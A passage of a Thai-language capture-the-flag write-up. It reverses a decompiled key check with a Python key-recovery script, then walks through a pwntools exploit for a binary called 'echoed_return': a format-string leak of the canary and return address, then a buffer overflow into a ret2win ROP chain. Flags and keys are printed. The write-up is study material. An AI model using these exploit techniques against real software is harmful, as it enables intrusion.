// expected = 7a8ff5dcd9ed7ab30c21966b8c94463bee6fd36e55ccb3bef83251f16d3e477d

iVar4 = 0;
dVar6 = 0;

while( true ) {
  if (main.expected.len <= iVar4) return (char)dVar6 == '\0';
  if (main.seed.len == 0) break;

  uVar5 = iVar4 % main.seed.len;
  pbVar1 = main.expected.array + iVar4;
  bVar7 = main.seed.array[uVar5] ^ input.str[iVar4];
  bVar2 = (char)iVar4 + ((char)(iVar4 / 7) + (char)(iVar4 >> 0x3f)) * -7 + 1U & 7;
  sVar3 = (sdword)iVar4;
  iVar4 = iVar4 + 1;
  dVar6 = dVar6 | (dword)*pbVar1 ^ sVar3 * 3 + 0x21U ^ sVar3 * 0xb + 7 + (dword)(byte)(bVar7 << bVar2 | bVar7 >> 8 - bVar2);
}
```

จาก code นี้เราจะเห็นว่า เงื่อนไขที่เป็นจริงคือ dVar6 == 0 ซึ่งเกิดจากการ OR ค่าไปเรื่อยๆ

```py
dVar6 = 0
for i in range(32):
    bVar7 = seed[i % 5] ^ key[i]
    bVar2 = ((i % 7) + 1) & 7
    rol = ((bVar7 << bVar2) | (bVar7 >> (8 - bVar2))) & 0xFF
    term = expected[i] ^ (i * 3 + 0x21) ^ ((i * 11 + 7 + rol) & 0xFF)
    dVar6 |= term

assert dVar6 == 0 # check แค่ low byte แต่เรา & 0xFF ไปแล้ว
```

เมื่อเราแกะออกมาให้เป็น python อ่านง่ายๆเราจะพบว่า เราสามารถขโมยเอาคำตอบออกมาจากมันได้ เพราะ `expected[i] ^ (i * 3 + 0x21)` ไม่ได้ใช้อะไรจาก `key` และอะไรก็ตามที่ XOR กับตัวมันเองจะได้ 0 นั่นแสดงว่า `expected[i] ^ (i * 3 + 0x21)` == `((i * 11 + 7 + rol) & 0xFF)`

```py
seed = bytes.fromhex("1337c0de42")
expected = bytes.fromhex("7a8ff5dcd9ed7ab30c21966b8c94463bee6fd36e55ccb3bef83251f16d3e477d")

def ror8(b, k):
    k %= 8
    return ((b >> k) | (b << (8 - k))) & 0xFF

key = ""
for i in range(32):
    k = ((i % 7) + 1) & 7
    rol = ((expected[i] ^ (i * 3 + 0x21)) - (i * 11 + 7)) & 0xFF
    bVar7 = ror8(rol, k)
    key += chr(seed[i % 5] ^ bVar7)

print(key) # 9Qv2Lm7Xk4Pz8Rta6Wc3Yh5Dj1Sf0BnM
```

ส่วน flag จะถูกถอดใน `main::main.reveal` ด้วยการเอา `protectedFlag` ไป XOR กับ SHA256 ของ input เรา แต่ในเมื่อเราได้ input จริงๆมาแล้วเลยไม่จำเป็นต้องไปแกะ



Flag `flag{b7e986bdb0af75c1317f6d433588738f}`

## Return Receipt

> not solved

สำหรับข้อนี้ผม solve ไม่ทันจริงๆ คือผมคำนวณ offset ไม่ถูก และเหลือ ROP chain แต่หมดเวลาก่อน เอาเถอะ เรามาแก้มือหลังจบงานกัน





สำหรับข้อนี้ก็เปิด security เยอะอยู่



แต่ไม่ได้ strip และแถมมี gadget function มาให้ด้วย ret2win สินะ



แต่ต้องมี args ด้วย



ช่องโหว่อยู่ใน `audit_console` function ที่มี buffer เพียง 96 แต่รับมาถึง 512 และ `printf` ที่รับ input เราไปแสดงผลโดยตรง

สำหรับ chall นี้จะเป็น ret2win + ROP chain ฮะ

เราจะเริ่มจากการหา leak canary และ return to main address ผ่าน input ในรอบแรก



โดยเราจะใส่ `%n$p` เพื่อไล่หาก่อนที่จะออกจาก function `audit_console` โดยเราจะ break ก่อนที่จะ sub ค่าใน rax `break *audit_console+545`





ซึ่งเราได้เป็น `%39$p` คือ return main address และ `%41$p` คือ canary

ต่อมาเรามาคำนวณ function address กัน เพื่อความง่าย เราจะย้อนหา runtime base address เลย แล้วคำนวณ address function อื่นๆจาก offset



```text
rt_main = 0x0000555555555591
rt_return_to_main = 0x0000555555555611
diff = 128

rt_base = rt_return_to_main - (main_offset + 128)
rt_main = rt_base + 0x1591
rt_win = rt_base + 0x11d2
rt_pop_rdi = rt_base + 0x11c9
rt_ret = rt_base + 0x11ce
```

ต่อมาคำนวณ offset ที่จะใส่ payload ซึ่งจาก code เราจะเห็นว่า buffer name คือ 40 ส่วน data คือ 96 จะได้ 136

โดย payload เราจะเป็น

```text
[136] - padding
[8] - leak canary
[8] - saved RBP
[8] - address gadget_ret (saved RIP)
[8] - address gadget_pop_rdi
[8] - argument 0x1337c0decafebabe
[8] - address win
```

```py
from pwn import *

p = process("./echoed_return")

p.recvuntil(b"Analyst name: ")
p.sendline(b"%39$p,%41$p")
p.recvuntil(b"Audit tag: ")

leak_return_main, leak_canary = map(lambda x: int(x, 16), p.recvuntil(b"\n\n")[:-2].split(b","))
rt_base = leak_return_main - (0x1591 + 128)
rt_main = rt_base + 0x1591
rt_win = rt_base + 0x11d2
rt_pop_rdi = rt_base + 0x11c9
rt_ret = rt_base + 0x11ce

log.success(f"leak return to main: {hex(leak_return_main)}")
log.success(f"leak canary: {hex(leak_canary)}")
log.info(f"runtime base: {hex(rt_base)}")
log.info(f"main: {hex(rt_main)}")
log.info(f"win: {hex(rt_win)}")
log.info(f"gadget_pop_rdi: {hex(rt_pop_rdi)}")
log.info(f"gadget_ret: {hex(rt_ret)}")

p.recvuntil(b"Report data: ")
p.sendline(flat(
    b"A" * 136,
    p64(leak_canary),
    p64(0), # saved RBP
    p64(rt_ret), # stack alignment
    p64(rt_pop_rdi),
    p64(0x1337c0decafebabe), # Argument
    p64(rt_win),
))

print(p.recvall(timeout=3).decode())
```



Flag `flag{97bd618835d09cf37addf3a589752b63}`

ขโมยออกมาหลังจบงานฮะ
